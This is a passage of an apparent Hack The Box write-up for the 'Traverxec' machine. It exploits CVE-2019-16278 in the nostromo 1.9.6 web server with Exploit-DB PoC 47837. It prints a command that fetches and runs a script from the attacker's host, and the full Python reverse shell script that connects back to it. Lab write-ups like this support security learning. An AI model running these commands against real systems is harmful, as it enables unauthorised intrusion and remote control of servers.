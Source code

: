 ![](https://cdn-images-1.medium.com/max/3840/1*tWpglm_BS13-LnEhmFufYw.png)

Nothing interesting can be found on the webpage.

## Initial Shell as www-data user

### Identify vulnerability

The webserver is nostromo 1.9.6 . Confirming that with a simple cURL request.

![](https://cdn-images-1.medium.com/max/2000/1*9oiVgdkS_imTAS5giwTKNg.png)

Doing some research about nostromo 1.9.6 points to
[**CVE-2019-16278 - Unauthenticated Remote Code Execution in Nostromo web server**
*Hi, Welcome to my blog! In this post, I will analyze CVE-2019-16278, how to exploit and why it vulnerable. This CVE is…*www.sudokaikan.com](https://www.sudokaikan.com/2019/10/cve-2019-16278-unauthenticated-remote.html)

To get a deep understanding of the bug, please go through the above blog. In a nutshell, here’s the vulnerability info
> Nostromo fails to verify a URL that leads to [path traversal](https://www.owasp.org/index.php/Path_Traversal) to any file in the system. An unauthenticated attacker can force the server points to a shell file like /bin/sh and execute arbitrary commands.

### Exploiting Nostromo

[Exploit-DB](https://www.exploit-db.com/) has a PoC script written in python to exploit the Nostromo vulnerability.
[**Offensive Security's Exploit Database Archive**
*nostromo 1.9.6 - Remote Code Execution. CVE-2019-16278 . remote exploit for Multiple platform*www.exploit-db.com](https://www.exploit-db.com/exploits/47837)

![](https://cdn-images-1.medium.com/max/2000/1*nQRXlIv8-bSQTfz0olH8OA.png)

Exploit requires three parameters,*** Target IP, Target Port, Command.***

![](https://cdn-images-1.medium.com/max/2116/1*6-HyM9W6hYyOhKE_MdamBA.png)

The exploit worked successfully, and it returned traverxec as the hostname.

### Gaining Shell

I uploaded a python reverse shell script to the target box, and thus received a reverse shell, with the below command.

    **python 47837.py 10.10.10.165 80 "wget 10.10.14.164/pythonshell.py -O /tmp/kk.py; python /tmp/kk.py"**

Here are the contents of my python reverse shell script

    **root@kali:~/htb/boxes/traverxec# cat pythonshell.py 
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",1234));
    os.dup2(s.fileno(),0);
    os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);
    p=subprocess.call(["/bin/sh","-i"]);**
